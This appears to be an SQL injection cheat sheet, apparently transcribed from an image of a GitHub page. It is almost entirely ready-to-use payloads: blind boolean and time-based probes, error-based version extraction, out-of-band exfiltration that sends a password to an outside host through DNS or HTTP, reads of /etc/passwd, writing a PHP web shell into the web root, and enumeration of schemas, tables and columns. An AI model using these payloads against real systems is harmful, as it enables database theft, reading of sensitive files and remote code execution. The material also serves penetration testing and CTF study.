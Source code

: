   - Union Based
  - Blind
    - Boolean Based

      ```
      ... id = 1 and length(user()) > 0
      ... id = 1 and length(user()) > 16
      ... id = 1 and ascii(mid(user(),1,1)) > 0
      ... id = 1 and ascii(mid(user(),1,1)) > 80
      ```

    - Time Based
      - sleep

        ```
        ... id = 1 and IF(ascii(mid(user(),1,1))>0, SLEEP(10), 1)
        ... id = 1 and IF(ascii(mid(user(),1,1))>80, SLEEP(10), 1)
        ```

      - query / large calculation data
      - repeat('A', 10000)
  - Error
    - ExtractValue(xml, xpath)

      ```
      SELECT ExtractValue(1, concat(0x0a,version()));
      -----------------------------------------------
      XPATH syntax error:'
      8.0.20'
      ```

    - UpdateXML(xml, xpath, new\_xml)
    - exp(x)
    - MultiLineString(LineString)
    - MultiPolygon(Polygon)
  - Out-of-Band
    | DB              | Payload                                                                 | Comment   |
    |:----------------|:------------------------------------------------------------------------|:----------|
    | MySQL + Windows | `load_file(concat("\\\\", password, ".splitline.tw"))`                  | DNS Query |
    |                 | SMB + DNS query log ([DNSBin](https://github.com/ettic-team/dnsbin))    |           |
    | Oracle          | `url_http.request('http://splitline.tw/' \|\| (SELECT user FROM dual))` |           |
  - Multi Byte SQL Injection
- Read / Write File
  - `SELECT LOAD_FILE('/etc/passwd')` (MySQL)
  - `SELECT pg_read_file('/etc/passwd', <offset>, <length>)` (PostgresSQL)
  - `SELECT "<?php eval($_GET[x]);?>" INTO OUTFILE "/var/www/html/shell.php"` (MySQL)
- Common Function
  | DB     | Function          |                 |           |            |          |
  |:-------|:------------------|:----------------|:----------|:-----------|:---------|
  | MySQL  | user()            | current\_user() | version() | database() | schema() |
  |        | group\_concat()   |                 |           |            |          |
  | Oracle | url\_http.request |                 |           |            |          |
- Special Table
  | DB           | Payload                                                             | Comment   |
  |:-------------|:--------------------------------------------------------------------|:----------|
  | MySQL >= 5.0 | `SELECT schema_name FROM information_schema.schemata;`               | Databases |
  |              | `SELECT table_name FROM information_schema.tables WHERE table_schema = '<database>';`                  | Tables    |
  |              | `SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema = '<database>' AND table_name = '<table>'`  | Columns   |
